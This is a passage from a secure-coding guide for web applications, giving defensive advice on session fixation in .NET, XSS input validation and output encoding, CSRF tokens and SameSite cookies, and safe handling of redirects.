For session invalidation purposes, the .NET framework utilizes ```Session.Abandon();```, but there is a caveat. ```Session.Abandon();``` is not sufficient for this task. Microsoft: "When you abandon a session, the session ID cookie is not removed from the browser of the user. Therefore, as soon as the session has been abandoned, any new requests to the same application will use the same session ID but will have a new session state instance." So, to address session fixation holistically, one needs to utilize ```Session.Abandon();``` and overwrite the cookie header or implement more complex cookie-based session management by enriching the information held within and cookie and performing server-side checks.

### XSS

#### Validation of User Input

The app should validate every input received immediately upon receiving it. Input validation should be performed on the server-side, using a positive approach (_limit the permitted input chars to chars that appear in a whitelist_), instead of a negative approach (_preventing the usage of chars that appear in a blacklist_), since the positive approach helps the programmer avoid potential flaws that result from mishandling potentially malicious chars. Input validation implementation must include the following validation principles in the following order:

- verify the existence of actual input, do not accept null or empty values when the input is not optional
- enforce input size restriction; make sure the input's length is within the expected range
- validate the input type, make sure the data received is, in fact, the type expected
- restrict the input range of values; the input's value should be within the acceptable range of values for the input's role in the application
- sanitize special chars, unless there is a unique functional needed, the input char set should be limited to azAZ09
- ensure logical input compliance

#### HTML Encoding to User-Controlled Output

The app should encode user-controlled input in the following cases:

- prior to embedding user-controlled input within browser targeted output
- prior to documenting user-controlled input into log files

The following inputs match the user-controlled criteria:

- dynamic values that originate directly from user input
- user-controlled data repository values
- session values originated directly from user input or user-controlled data repository values
- values received from external entities
- any other value which could have been affected by the user
- the encoding process should verify that input matching the given criteria will be processed through a data sanitization component, which will replace non-alphanumerical chars in their HTML representation before including these values in the output sent to the user or the log file; this operation ensures that every script will be presented to the user rather than executed in the user's browser

#### Additional Instructions

- do not embed user input into client-side scripts; values deriving from user input should not be directly embedded as part of an HTML tag, script tag, HTML event, or HTML property
- complimentary instructions for protecting the application against cross-site scripting can be found [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- a list of HTML encoded chars representations can be found [here](https://www.degraeve.com/reference/specialcharacters.php)

>[!TIP]
> Cookies should be marked as HTTPOnly for XSS attacks to not be able to capture them.

### CSRF

It is recommended that whenever a request is made to access each function, a check should be done to ensure the user is authenticated to perform that action.

The preferred way to reduce the risk of a CSRF vuln is to modify session management mechanisms and implement additional, randomly generated, and non-predictable security tokens or responses to each HTTP request related to sensitive operations.

Other mechanisms that can impede the ease of exploitation include: 

- Referrer header checking
- Performing verification on the order in which pages are called
- Forcing sensitive functions to confirm information received

In addition to the above, explicitly stating cookie usage with the [SameSite](https://web.dev/articles/samesite-cookies-explained) attribute can also prove an effective anti-CSRF-mechanism.

### Open Redirect

The safe use of redirects and forwards can be done in several ways:

- do not use user-supplied URLs and have methods to strictly validate the URL
- if user input cannot be avoided, ensure that the supplied value is valid, appropriate for the app, and is authorized for the user
- it is recommended that any destination input be mapped to a value rather than the actual URL or portion of the URL and that server-side code translates this value to the target URL
- sanitize input by creating a list of trusted URLs
- force all redirects to first go through a page notifying users that they are being redirected from your site and require them to click a link to confirm